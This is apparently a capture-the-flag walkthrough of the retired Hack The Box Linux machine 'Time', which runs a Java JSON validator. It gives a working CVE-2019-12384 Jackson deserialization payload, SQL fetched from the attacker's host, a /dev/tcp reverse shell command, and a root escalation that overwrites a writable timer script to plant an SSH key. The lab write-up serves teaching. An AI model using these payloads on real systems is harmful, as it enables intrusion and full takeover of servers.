

Time
1. Information
- Linux
- Medium class
- Released Oct 2020
- Retired Apr 2021
Time is a medium machine with an exploitable JSON parser a writable script run by root.
2. Foothold & user
A basic nmap scan nmap -sC -sV -T4 -v time.htb will find only two open services, SSH and HTTP at their appropriate ports.
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
An online JSON validator greets us when navigating to http://time.htb. Playing around with it will format a JSON string by default. Optionally it has a beta feature to validate the JSON input.
The validator will return null upon beautifying invalid entries, but when fuzzing the beta option the validator returns a Java exception:
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'asd': was expecting ('true', 'false' or 'null')
It is revealed here that the app uses Jackson, a Java JSON serialization library. Searching for java jackson rce may lead you to CVE-2019-12384, which details a vulnerability in Jackson reflection code. This would allow us to use the JDBC API to execute SQL and achieve remote code execution.
Let's try it by setting up a listener with nc -lvnp 8000 and using ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.41:8000/hello'"}] as a test payload.
GET /hello HTTP/1.1
User-Agent: Java/11.0.8
Host: 10.10.14.41:8000
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
The request came through, so now it's time to try the exploit. Let's create the SQL payload from the CVE:
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
String[] command = {"bash", "-c", cmd};
java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("A");
return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.14.41/4444 0>&1 &')
Then start a Python HTTP server with python3 -m http.server and send the payload. Doing this successfully drops us into a shell as user pericles and the user flag immediately available.
id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
3. Root
Looking around the system we find that a non-standard /usr/bin/timer_backup.sh script that is writable for pericles exists.
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
It simply takes a backup from the website at /var/www/html. Judging by the code this is executed as root.
As this file is writable and seems to be run on a timer (confirmed by checking out systemctl), we have many options. Let's try if we can SSH into the root user locally since ssh-keygen is available.
First, create a key with ssh-keygen with the default options as pericles. Then we modify the timer script as such:
echo 'cat /home/pericles/.ssh/id_rsa.pub > /root/.ssh/authorized_keys; chmod 0600 /root/.ssh/authorized_keys' > /usr/bin/timer_backup.sh
After waiting a while, we can verify it worked by executing ssh root@localhost and retrieve the root flag.